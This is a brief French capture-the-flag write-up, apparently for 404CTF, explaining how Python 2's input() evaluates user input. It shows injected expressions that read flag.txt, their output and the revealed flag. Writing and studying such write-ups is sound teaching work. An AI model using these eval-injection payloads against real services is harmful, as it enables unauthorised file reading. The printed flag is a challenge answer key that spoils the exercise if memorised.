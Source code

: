 On est en python2 : la fonction input() est vulnérable

Contrairement à sa conjointe `raw_input()`, elle évalue son contenu

On craft donc un payload pour afficher le flag et lui faire print (on perdra la partie après, hélas)

`__import__('sys').stdout.write(open("flag.txt", "r").readline())`

Nous affiche le flag gentiment

```
> __import__('sys').stdout.write(open("flag.txt", "r").readline())
404CTF{cH0iX_nUm3r0_4_v1c701r3}
Traceback (most recent call last):
...
```

En rétrospective, c'était pas trop la peine de se faire chier avec la forme compliquée :

`open("flag.txt", "r").readline())`

marchait tout aussi bien :

`ValueError: invalid literal for int() with base 10: '404CTF{cH0iX_nUm3r0_4_v1c701r3}\n'`
